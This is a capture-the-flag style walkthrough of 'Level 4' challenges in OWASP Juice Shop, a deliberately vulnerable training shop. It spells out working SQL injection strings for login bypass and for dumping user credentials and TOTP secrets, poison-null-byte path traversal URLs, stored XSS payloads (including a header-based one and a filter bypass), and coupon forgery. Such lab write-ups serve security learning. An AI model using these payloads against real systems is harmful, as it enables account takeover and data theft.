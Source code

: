 # Level 4

## Christmas Special (Injection)
_Order the Christmas special offer of 2014._

You can find "Christmas special offer of 2014" in [application-configuration.json](misc/application-configuration.json).
By comparing with the list of products (`GET /api/Product`), you can determine that "Christmas special offer of 2014"
must have product ID `10`.

Knowing the ID, just add it to the cart:
```
POST /api/BasketItems/

{"ProductId":10,"BasketId":"1","quantity":1}
```

Finally, finish the order in your browser.

## Easter Egg (Broken Access Control)
_Find the hidden easter egg._

The egg is at `/ftp/eastere.gg`. However, it's protected by a file extension filter:
```
403 Error: Only .md and .pdf files are allowed!
```

The trick is exploiting [CWE-626: Null Byte Interaction Error (Poison Null Byte)](https://cwe.mitre.org/data/definitions/626.html)
> The poison null byte is frequently useful in path traversal attacks by terminating hard-coded extensions that are added to a filename.

Call `GET /ftp/eastere.gg%2500.md` (`%25` is URL encoded `%`):
```
"Congratulations, you found the easter egg!"
- The incredibly funny developers

...

...

...

Oh' wait, this isn't an easter egg at all! It's just a boring text file! The real easter egg can be found here:

L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==

Good luck, egg hunter!
```

## Ephemeral Accountant (Injection)
_Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user._

This is about SQL injection into _Login form_. If you already done the [Database Schema](level3.md#database-schema-injection)
challenge, you know the number of columns and data types of `users` table.
 
```
xxx' UNION SELECT 999, '', 'acc0unt4nt@juice-sh.op', 'password', 'accounting', '', '0.0.0.0', '/assets/public/images/uploads/default.svg', '', 1, '2020-08-15T18:22:49.161Z', '2020-08-15T18:22:49.161Z', null; --
```

The role must be the `accounting`!

## Expired Coupon (Improper Input Validation)
_Successfully redeem an expired campaign coupon code._

The first step is to take a look how coupons work. You can always get a valid coupon on
[Juice shop Twitter](https://twitter.com/owasp_juiceshop).

There's a [coupon for 09/2020](https://twitter.com/owasp_juiceshop/status/1301392070532308992):
```
q:<IrfFb4l
```

Log in, add some items into the basket and make an order using the coupon. The important request is:
```
POST /rest/basket/1/checkout

{"couponData":"cTo8SXJmRmI0bC0xNjAxMTYxMjAwMDAw","orderDetails":{"paymentId":"4","addressId":"3","deliveryMethodId":"1"}}
```

Decode `couponData` (Base64):
```
q:<IrfFb4l-1601161200000
```

There's the coupon code (`q:<IrfFb4l`), and today's timestamp (`1601161200000`).

Now let's look for some expired coupons.
 
At first, I was looking for an older coupon on Twitter but that does not work!
The challenge description states: "redeem an expired **campaign** coupon code".

Searching for `campaign` in source code points to:
```
WMNSDY2019: {
    validOn: 15519996e5,
    discount: 75
},
WMNSDY2020: {validOn: 1583622e6, discount: 60},
WMNSDY2021: {validOn: 1615158e6, discount: 60},
WMNSDY2022: {validOn: 1646694e6, discount: 60},
WMNSDY2023: {validOn: 167823e7, discount: 60},
ORANGE2020: {validOn: 15885468e5, discount: 50},
ORANGE2021: {validOn: 16200828e5, discount: 40},
ORANGE2022: {validOn: 16516188e5, discount: 40},
ORANGE2023: {validOn: 16831548e5, discount: 40}
```

There's `WMNSDY2019` with valid on `15519996e5` --> `1551999600000` -> `Thursday 7. March 2019 23:00:00`.

Ok, let's try to use it in `couponData`. Encode `WMNSDY2019-1551999600000` with Base64:
```
V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw
```

Intercept the checkout request and modify the coupon data with `V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw`.

Bingo, the discount is yours!

## Forgotten Developer Backup (Sensitive Data Exposure)
_Access a developer's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md` and obtain [package.json.bak](misc/package.json.bak).

## Forgotten Sales Backup (Sensitive Data Exposure)
_Access a salesman's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md`
```
n<MibgC7sn
mNYS#gC7sn
o*IVigC7sn
k#pDlgC7sn
o*I]pgC7sn
n(XRvgC7sn
n(XLtgC7sn
k#*AfgC7sn
q:<IqgC7sn
pEw8ogC7sn
pes[BgC7sn
l}6D$gC7ss
```

## HTTP-Header XSS (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> through an HTTP header._

The first step is to find a place where an HTTP header is reflected back to the user.

I was suspicious from the beginning about the _Last Login IP_ page (`/#/privacy-security/last-login-ip`). The IP address
is usually taken from HTTP header [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For).

Next step is to understand how this last login IP is set.
 
Grepping through [main-es2015.js](misc/main-es2015.js):
```
grep 'rest/' misc/main-es2015.js
```

One of the results points to:
```
saveLastLoginIp() {
    return this.http.get(this.hostServer + "/rest/saveLoginIp").pipe(Object(s.a)(t => t), Object(l.a)(t => {
        throw t
    }))
}
```

This method is called during `logout`.

Log in, log out and let's try to manipulate the HTTP headers.

First attempt is obvious:
```
X-Forwarded-For: 1.1.1.1
```

No luck! 

Don't despair, there are more ways how to [spoof an IP address](https://portswigger.net/kb/issues/00400110_spoofable-client-ip-address).

`True-Client-IP` is the correct one. Just add this header to `GET /rest/saveLoginIp` request:
```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

If you really want to trigger the XSS (not necessary to solve the challenge):
1. Log in
2. Log out (triggers `GET /rest/saveLoginIp`)
3. Replay `GET /rest/saveLoginIp` with the extra header
4. Log in and go to _Last Login IP_ page

## Leaked Unsafe Product (Sensitive Data Exposure)
_Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous._

Similar to the challenge [Christmas Special](#christmas-special-injection), we can easily identify the product in 
[application-configuration.json](misc/application-configuration.json):
```json
{
    "name": "Rippertuer Special Juice",
    "description": "Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br/><span style=\"color:red;\">This item has been made unavailable because of lack of safety standards.</span>",
    "price": 16.99,
    "image": "undefined.jpg",
    "keywordsForPastebinDataLeakChallenge": [
      "hueteroneel",
      "eurogium edule"
    ]
}
```

Googling for the rarest fruits is not the solution, they are all safe.
So either google for `Rippertuer Special Juice` and find this paste https://pastebin.com/90dUgd7s
or get the answer from `keywordsForPastebinDataLeakChallenge` (guess this is not intentional though).

Submit `Hueteroneel and Eurogium Edule` into _Customer Feedback_ form.

## Legacy Typosquatting (Vulnerable Components)
_Inform the shop about a typosquatting trick it has been a victim of at least in v6.2.0-SNAPSHOT. (Mention the exact name of the culprit)_

This challenge follows [Forgotten Developer Backup](#forgotten-developer-backup-sensitive-data-exposure).

Inspect [package.json.bak](misc/package.json.bak). It is for `v6.2.0-SNAPSHOT`!

I was hoping to find a malicious NPM package as described in [Malicious packages in npm](https://iamakulov.com/notes/npm-malicious-packages/)
(one of the challenge hints).

I ran `npm audit`(see [package-audit.json](misc/package-audit.json)) but didn't find anything suspicious.

Next, I tried to get something from the [Git history](https://github.com/bkimminich/juice-shop/compare/v6.1.0...v6.2.0) comparing `v6.2.0` to `v6.1.0`
and looking for changes in `package.json`.

All wrong. There is no real vulnerability :-(

Not sure what's the intended way of solving this challenge except for going through the dependencies one by one.

The typo-squatted NPM package is [epilogue-js](https://www.npmjs.com/package/epilogue-js).

Submit `epilogue-js` into the Feedback form.

## Nested Easter Egg (Cryptographic Issues)
_Apply some advanced cryptanalysis to find the real easter egg._

This challenge follows [Easter Egg](#easter-egg-broken-access-control). The goal is to decrypt:
```
L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==
```

This is rather easy.
 
1) Decode `Base64` (https://www.base64decode.org/):
```
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt
```

2) Apply [ROT13](https://en.wikipedia.org/wiki/ROT13) cipher (https://rot13.com/):
```
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

Call `GET /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`

## Reset Bender's Password (Broken Authentication)
_Reset Bender's password via the Forgot Password mechanism with the original answer to his security question._

Bender's security question is:
> Company you first work for as an adult?

[Bender](https://en.wikipedia.org/wiki/Bender_(Futurama)) is a well-known character from the
TV show [Futurama](https://en.wikipedia.org/wiki/Futurama).

The [wiki](https://en.wikipedia.org/wiki/Bender_(Futurama)) lists his occupations as:
- Suicide booth construction worker (formerly)
- Planet Express Bender / Chef

Read more about [suicide booths](https://futurama.fandom.com/wiki/Suicide_Booth):
> Suicide booths were invented somewhere between 2006 and 2008. Since 2008, America's most important brand of suicide booths is Stop'n'Drop. 

The correct answer is `Stop'n'Drop`

## Reset Uvogin's Password (Sensitive Data Exposure)
_Reset Uvogin's password via the Forgot Password mechanism with the original answer to his security question._

Uvogin's security question is:
> Your favorite movie?

This one is rather hard so let's start with some hints:
> People often reuse aliases online. You might be able to find something by looking online for Uvogin's name or slight variations of it based on his unique writing habits

"Unique writing habits" points to [leetspeak](https://en.wikipedia.org/wiki/Leet).
See that all comments from `Uvogin` are like `y0ur f1r3wall needs m0r3 musc13` or `0 st4rs f0r 7h3 h0rr1bl3 s3cur17y`.

Googling for `uv0gin` quickly reveals his [Twitter account](https://twitter.com/uv0gin).
Unfortunately, nothing useful is here.

The catch is that the important tweet was deleted (_I had no idea and had to look into solutions_).
However, you can recover it with a service such as [Wayback Machine](https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin):

![](images/uv0gin-movie.png)

The correct answer is `Silence of the Lambs`

## Server-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a server-side security mechanism._

I tried to use this payload in the _Customer Feedback_ form, but the payload was deleted:
```
Hello <iframe src="javascript:alert(`xss`)">
```

Resulting into:
```
Hello
```

Hopefully, it's just a simple string replacement. So let's try:
```
<<iframe src="javascript:alert(`xss`)">iframe src="javascript:alert(`xss`)">
```

Bingo, the nested ```<iframe src="javascript:alert(`xss`)">``` string is deleted resulting into the original payload!

## Steganography (Security through Obscurity)
_Rat out a notorious character hiding in plain sight in the shop. (Mention the exact name of the character)_

I have some experience with steganography, yet I was unable to crack this one. I miss a hint where to look, otherwise
there is too many places.

The character is hidden in one of the carousel images (`/#/about`).

The only clue is that just one of the carousel images is a PNG, others are JPGs.

This is the one:

![](misc/5.png)

Nothing suspicious on the first sight. You need a tool to extract the hidden data.
The usual problem is that you don't know which one ...

I standard utilities such as 
- `strings`
- `exiftool`
- `identify -verbose`
- `binwalk`
- [Stegsolve](http://www.caesum.com/handbook/stego.htm)
- [Forensically](https://29a.ch/photo-forensics/)

However, the tool for this job is [OpenStego](https://www.openstego.com/index.html). I admit I used it in the past.

With _OpenStego_, you can extract the character:

![](misc/J7RbRp1D5XDM5LINx0TdgeFX_o.png)

The last part is to find out his name. Googling by the image is no use.
However, I was able to Google this picture with keywords `famous cartoon characters green monster ribs`:

![](misc/pickle-rick.jpg)

Finally, get his `Pickle Rick` at [Every Episode of 'Rick and Morty,' Ranked](https://www.thrillist.com/entertainment/nation/best-rick-and-morty-episodes-ranked)

## User Credentials (Injection)
_Retrieve a list of all user credentials via SQL Injection._

This challenge follows the [Database Schema](level3.md#database-schema-injection) challenge:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+username,email,password,role,deluxeToken,lastLoginIp,profileImage,totpSecret,isActive+FROM+Users--
```

The result is in [misc/users.json](misc/users.json).